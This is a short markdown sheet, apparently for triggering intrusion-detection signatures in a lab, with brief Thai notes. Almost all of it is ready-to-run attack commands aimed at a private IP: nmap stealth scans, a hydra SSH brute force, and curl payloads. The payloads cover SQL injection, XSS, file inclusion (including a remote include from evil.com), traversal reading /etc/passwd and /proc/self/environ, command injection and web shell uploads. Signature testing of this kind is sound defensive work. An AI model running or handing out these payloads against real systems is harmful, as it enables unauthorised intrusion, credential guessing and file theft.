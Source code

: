 # Scan Signature demo
```bash
sudo apt install nmap
```
```bash
nmap [subnet]
```
```bash
nmap -p 22,80,443 [ip address]
```
```bash
sudo nmap -sS [ip address]
```
```bash
sudo nmap -sF [ip address]
```

# Brute force Signature demo

```bash
sudo apt install hydra
```
```bash
hydra -l [username] -P /path/to/passwords.txt ssh://[ip address]
```
## Exploit Signature demo 
- หากเป็น http ใช้คำสั่งตามด้านล่างได้เลย
- หากเป็น https ให้เปลี่ยนที่ตัวคำสั่งด้านล่างให้เป็น https ด้วย
- หากเป็น Self-signed cert  ให้เติม -k หลัง curl ด้วย

- SQL Injection (SQLi)
```bash
curl -X GET "http://10.147.18.208/login.php?user=admin'--&pass=123"
```
```bash
curl -X GET "http://10.147.18.208/search.php?q=1+union+select+null,null--"
```

- Cross-Site Scripting (XSS)
```bash
curl -G "http://10.147.18.208/page.php" --data-urlencode "name=<script>alert(1)</script>"
```
```bash
curl -G "http://10.147.18.208/page.php" --data-urlencode "img=<img src=x onerror=alert(1)>"
```
```bash
curl -G "http://10.147.18.208/page.php" --data-urlencode "param=%3Cscript%3Ealert(1)%3C%2Fscript%3E"
```

- Local File Inclusion (LFI)
```bash
curl -G "http://10.147.18.208/index.php" --data-urlencode "file=../../etc/passwd"
```
```bash
curl -G "http://10.147.18.208/index.php" --data-urlencode "file=%252e%252e%252f%252e%252e%252fetc%252fpasswd"
```

- Remote File Inclusion (RFI)
```bash
curl -G "http://10.147.18.208/index.php" --data-urlencode "file=http://evil.com/malware.txt"
```
```bash
curl -G "http://10.147.18.208/index.php" --data-urlencode "file=ftp://evil.com/shell.txt"
```

- Command Injection
```bash
curl -G "http://10.147.18.208/ping.php" --data-urlencode "host=127.0.0.1; ls -la"
```
```bash
curl -G "http://10.147.18.208/ping.php" --data-urlencode "host=127.0.0.1`whoami`"
```
```bash
curl -G "http://10.147.18.208/ping.php" --data-urlencode "host=127.0.0.1$(id)"
```

- Directory Traversal
```bash
curl -G "http://10.147.18.208/download.php" --data-urlencode "file=../../../../etc/passwd"
```
```bash
curl -G "http://10.147.18.208/download.php" --data-urlencode "file=/proc/self/environ"
```


- Web Shell Upload
```bash
curl -X POST "http://10.147.18.208/upload.php" -F "file=@/tmp/malicious.php"
```
```bash
curl -X POST "http://10.147.18.208/upload.php" -F "file=@/tmp/shell.phtml"
```

## Server side prepare http
```bash
python3 -m http.server [port]
```